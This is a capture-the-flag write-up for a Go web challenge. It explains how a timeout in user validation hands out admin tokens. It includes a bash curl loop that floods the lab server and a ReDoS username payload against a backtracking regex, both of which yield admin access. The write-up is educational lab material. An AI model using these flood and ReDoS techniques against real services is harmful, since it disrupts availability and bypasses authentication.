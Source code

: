 # Diary #1

The challenge is a variant of `Diary`. It only differs by patching the SQL injection.

This version runs on the `23689`. 

For more info, see [Diary](../Web_Diary/WRITEUP.md).

# Timeout

The user validation is not handling timouts very well. On timeout it still returns the userID, which would generate a valid token for the admin user.


```go
func validateUser(creds Credentials) (int, error) {
	var userID int
    //redacted
	ctx, cancel := context.WithTimeout(context.Background(), 5*time.Second)
	defer cancel()
    //redacted
	go func() {
			usernameRegex := regexp2.MustCompile(`^\s*([a-zA-Z0-9]+)*\s*$`, 0)
			if m, _ := usernameRegex.FindStringMatch(creds.Username); m != nil {
				gps := m.Groups()
				username = gps[1].Captures[0].String()
			}
  			//redacted
	}()

	select {
	case err := <-queryResult:
		if err != nil {
			return -1, errors.New("no user found")
		}
	case <-ctx.Done():
		return userID, err
	}
	return userID, nil
}

```

As an easy solution, flooding the server for a few seconds would cause the server to timeout and handle out tokens. 

After local testing, ~2000 requests should be enough to stall the server a little, but won't overload it for more than a few seconds.

```bash
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"admin","password":"a"}' | grep token) & done
for i in {1..1000}; do (curl -s 'http://10.10.1.10:23689/register' -X POST --data-raw '{"username":"admin","password":"a"}' > /dev/null) & done
```

![](screenshots/1.png)

Using any of the tokens would log in as the admin.

![](screenshots/2.png)

With access to the flag.

![](screenshots/3.png)

# Flag

CQ24{4r3_They_ReallY_SaFe_d0E?}

# Regex

The regex library is not the default. 

```
Regexp2 is a feature-rich RegExp engine for Go. It doesn't have constant time guarantees like the built-in regexp package, but it allows backtracking and is compatible with Perl5 and .NET.
```

Abusing the regex pattern `^\s*([a-zA-Z0-9]+)*\s*$` for catastrophic backtracking can also timeout the server.

There is an offline tool that can be installed via pip to check and exploit regexes: [regexploit](https://pypi.org/project/regexploit/). Alternatively <https://devina.io/redos-checker> can be also used as an online tool.

```bash

echo '^\s*([a-zA-Z0-9]+)*\s*$' | regexploit
```

```
Redos(starriness=11, prefix_sequence=SEQ{ [SPACE]{0+} }, redos_sequence=SEQ{ [[a-z],[0-9],[A-Z]]{1+}{0+} [SPACE]{0+} $[20,a0,[a-z],[0-9],[09-0d],[A-Z]] }, repeated_character=[[a-z],[0-9],[A-Z]], killer=[^20,a0,[a-z],[0-9],[09-0d],[A-Z]])
Worst-case complexity: 11 * * * * * * * * * * (exponential)
Repeated character: [[a-z],[0-9],[A-Z]]
Final character to cause backtracking: [^20,a0,[a-z],[0-9],[09-0d],[A-Z]]
Example: '0' * 3456 + '!'
```

There is a check that the regex length should be less than or equal 32, so a minor tweak would be required, but it is still running long enough to trigger a timeout.

```bash
curl -s 'http://10.10.1.10:23689/login' -X POST --data-raw '{"username":"0000000000000000000000000000000!","password":"a"}'
```

This handles out a token the same way the flood does, but more cleanly.
